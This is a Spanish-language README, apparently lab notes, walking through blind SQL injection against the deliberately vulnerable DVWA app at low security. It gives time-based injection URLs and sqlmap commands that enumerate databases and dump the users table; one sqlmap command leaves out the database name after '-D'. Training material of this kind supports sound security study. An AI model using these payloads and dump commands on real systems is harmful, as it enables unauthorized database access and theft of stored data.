





# Vulnerabilidad de SQL Injection (Blind) - Nivel Bajo

Este README describe brevemente la vulnerabilidad de SQL Injection (Blind) y cómo explotarla en el nivel de seguridad Bajo.

## Resumen de la Vulnerabilidad de SQL Injection (Blind)

SQL Injection (SQLi) Blind es una variación de SQL Injection donde el atacante no recibe mensajes de error detallados de la base de datos. La información se infiere observando el comportamiento de la aplicación en respuesta a inyecciones SQL, utilizando técnicas basadas en booleanos o en tiempo.

## Explotación de SQL Injection (Blind) Paso a Paso - Nivel de Seguridad Bajo

En el nivel de seguridad bajo, la aplicación es completamente vulnerable a la inyección SQL Blind y no implementa ninguna medida de seguridad.

### Explotación Manual (Basada en Tiempo - Ejemplo)

1.  **Identificar el parámetro vulnerable:** En este caso, el parámetro vulnerable en la URL es `id`.
2.  **Intentar una inyección SQL básica:** Un intento básico como `'` probablemente no arrojará un error visible.
3.  **Realizar una inyección SQL basada en tiempo:** Para verificar la vulnerabilidad, se introduce una consulta que fuerza una espera en la base de datos:
    ```
    http://<IP_del_servidor>/dvwa/vulnerabilities/sqli_blind/?id=1 AND SLEEP(5)&Submit=Submit#
    ```
    Si la página tarda aproximadamente 5 segundos en cargar, la inyección SQL basada en tiempo es exitosa.
4.  **Inferir información:** Se pueden usar consultas booleanas combinadas con `SLEEP()` para extraer información carácter por carácter. Por ejemplo, para verificar la longitud de la versión de la base de datos:
    ```
    http://<IP_del_servidor>/dvwa/vulnerabilities/sqli_blind/?id=1 AND LENGTH(VERSION()) > 5 AND SLEEP(5)&Submit=Submit#
    ```
    Un tiempo de carga prolongado indica que la condición es verdadera.

### Explotación Automatizada con sqlmap

sqlmap es una herramienta que automatiza la detección y explotación de SQLi Blind.

Para tener la información necesaria utilizamos la información del navegador o la optenemos haciendo una captura con burp suite





1.  **Construir el comando sqlmap para enumerar las bases de datos:**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id --dbs
    ```
    * `--url`: Especifica la URL vulnerable.
    * `--cookie`: Proporciona la cookie de sesión.
    * `--data`: Especifica los datos POST (si aplica).
    * `-p id`: Indica el parámetro a probar.
    * `--dbs`: Le dice a sqlmap que enumere las bases de datos.



2.  **Ejecutar el comando sqlmap:** sqlmap probará varias técnicas de inyección Blind.

3.  **Analizar los resultados:** sqlmap mostrará las bases de datos encontradas (ej: `dvwa`, `information_schema`).

4.  **Enumerar las tablas de una base de datos específica (ej: `dvwa`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -D --tables --batch --threads 5
    ```
    * `--tables`: Le dice a sqlmap que enumere las tablas.
    * `--batch`: Responde automáticamente a las preguntas.
    * `--threads 5`: Utiliza múltiples hilos.



5.  **Extraer la información de una tabla específica (ej: `users`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump
    ```
    * `-T users`: Especifica la tabla.
    * `--dump`: Le dice a sqlmap que vuelque el contenido.



En resumen, la explotación de SQL Injection (Blind) en el nivel bajo se realiza manualmente mediante la observación del tiempo de respuesta o automáticamente utilizando herramientas como sqlmap para inferir la estructura y el contenido de la base de datos sin recibir errores directos.